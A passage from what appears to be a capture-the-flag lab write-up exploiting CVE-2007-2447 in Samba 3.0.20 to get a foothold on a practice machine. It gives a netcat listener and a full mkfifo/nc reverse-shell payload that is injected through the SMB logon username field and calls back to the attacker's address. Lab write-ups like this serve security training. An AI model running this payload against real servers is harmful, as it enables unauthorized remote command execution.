 It isn't.

If we search [ExploitDB](https://www.exploit-db.com/) for `samba 3.0.20`, we
find
[Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)](https://www.exploit-db.com/exploits/16320)
([CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447)). Let's give it
a try!

## Foothold ([CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447))

[CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) is a
vulnerability in Samba versions `3.0.0` through `3.0.25rc3` when using the
non-default "username map script" configuration option. By specifying a username
containing shell meta characters, an attacker can get RCE.

### Preparation

The Metasploit module `exploit/multi/samba/usermap_script` can be used to
exploit this vulnerability, but it's easy to do manually.

The goal is to exploit this RCE to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

Therefore, after logging in to the SMB server, the command we should enter to
exploit this CVE is:

```sh
logon "/`nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 9001 >/tmp/f`"
```

### Exploitation

Let's connect to the SMB server and access the only share we have access to,
`tmp`.

```sh
❯ smbclient "//10.10.10.3/tmp" -N
```

Then, we can enter our payload followed by a random password:

```sh
smb: \> logon "/`nohup rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.4 9001 >/tmp/f`"
```

If we check our listener:
